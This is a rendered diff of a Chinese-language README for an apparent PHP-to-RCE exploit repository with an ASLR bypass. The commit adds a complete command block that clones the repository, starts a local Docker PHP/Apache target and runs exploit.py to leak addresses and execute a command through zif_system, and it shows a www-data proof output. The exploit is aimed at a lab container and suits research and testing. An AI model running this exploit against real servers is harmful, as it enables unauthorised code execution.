

Before and after one commit to 0xh34z/php2shell-bypass-aslr-exp, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
README: give the full clone-to-RCE command block in exp

````diff
--- a/README.md
+++ b/README.md
@@ -4,9 +4,34 @@
 
 ## exp
 
-先给一键利用方式，机制解释放在后面。`exploit.py` 是一键入口：自动完成 worker 轮换、两阶段泄漏、`zif_system` 执行和 proof 读取，每个阶段内置重试。
+下面是从零到 RCE 的完整命令，整段复制执行即可。本仓库不编译 PHP/Apache，没有 `docker build`：环境就是官方 `php:8.4.26-apache` 镜像加 `docker/` 下的配置挂载。
 
-环境直接用 Docker 官方镜像，不在本地编译 PHP/Apache：
+```bash
+# 依赖：Docker Engine/Desktop + Docker Compose v2 + Python 3.9+
+git clone https://github.com/9bie/php2shell-bypass-aslr-exp.git
+cd php2shell-bypass-aslr-exp
+
+# 1) 拉官方镜像（PHP 8.4.26 / Debian 12 / Apache prefork）
+docker compose -f docker/docker-compose.yml pull
+
+# 2) 起目标：单 worker、display_errors=On、memory_limit=8M
+docker compose -f docker/docker-compose.yml up -d
+
+# 3) 等 Apache 就绪并确认普通页面
+for i in $(seq 1 20); do
+  curl -fsS http://127.0.0.1:8088/index.php >/dev/null 2>&1 && break
+  sleep 0.5
+done
+curl -s http://127.0.0.1:8088/index.php   # OK
+
+# 4) 一条命令完成整个利用；首次运行会自动读取 libphp 偏移
+python3 exploit.py -u http://127.0.0.1:8088/index.php
+# PROOF: uid=33(www-data) gid=33(www-data) groups=33(www-data)
+```
+
+> 已经在仓库目录内就跳过 `git clone`/`cd`；`pull` 也可以省略，`up -d` 会自动拉镜像。
+
+`exploit.py` 自动完成 worker 轮换、两阶段泄漏、`zif_system` 执行和 proof 读取，每个阶段内置重试。运行环境：
 
 | 组件 | 版本 | 来源 |
 |---|---|---|
@@ -17,11 +42,6 @@
 | lab 报告中的 Apache | 2.4.68（原 lab 自编译） | 若需完全一致，用 [apache/httpd](https://github.com/apache/httpd) 的 2.4.68 tag |
 
 官方镜像仓库：[docker-library/php](https://github.com/docker-library/php)（Docker Hub: [`php:8.4.26-apache`](https://hub.docker.com/_/php)）；PHP 源码：[php/php-src](https://github.com/php/php-src)（tag `php-8.4.26`）。
-
-```bash
-docker compose -f docker/docker-compose.yml up -d
-python3 exploit.py -u http://127.0.0.1:8088/index.php
-```
 
 首次运行会自动执行 [docker/offsets.py](docker/offsets.py)：从容器内 `libphp.so` 读取 `zif_system` / `zval_ptr_dtor` 的真实偏移并写入 `out/offsets.env`，`exploit.py` 自动加载，所以更换官方镜像或升级后不用手改偏移。默认命令是 `id>/out/p1`（10 字节），容器里的 `/out` 挂载到仓库的 `./out`，proof 直接落在本机：
 
````
